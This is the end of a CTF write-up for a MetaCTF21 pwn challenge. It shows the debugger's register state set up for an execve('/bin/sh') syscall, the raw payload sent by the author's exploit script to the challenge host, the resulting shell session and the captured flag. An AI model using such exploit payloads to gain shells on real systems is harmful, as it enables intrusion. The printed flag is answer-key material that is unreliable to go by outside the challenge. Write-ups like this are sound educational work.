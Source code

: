 ```
target.interactive()
```
Here is what my registers look like in GEF if I run it locally and debug:
```
$rax   : 0x3b              
$rbx   : 0x0               
$rcx   : 0x0               
$rdx   : 0x0               
$rsp   : 0x0               
$rbp   : 0x0               
$rsi   : 0x0               
$rdi   : 0x0000000000402000  →  0x0068732f6e69622f ("/bin/sh"?)
$rip   : 0x000000000040100d  →  <_start+13> syscall 
$r8    : 0x0               
$r9    : 0x0               
$r10   : 0x0               
$r11   : 0x0               
$r12   : 0x0               
$r13   : 0x0               
$r14   : 0x0               
$r15   : 0x0 
```
And here is the result against the live target:
```
knittingirl@piglet:~/CTF/metaCTF21$ python3 little_payload.py 
[+] Opening connection to host1.metaproblems.com on port 5460: Done
b'\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00 @\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00;\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\r\x10@\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x003\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00'
[*] Switching to interactive mode
$ ls
flag.txt
little
little.sh
$ cat flag.txt
MetaCTF{5i9nAL5_3v3rYwH3r3}
```
Thanks for reading!
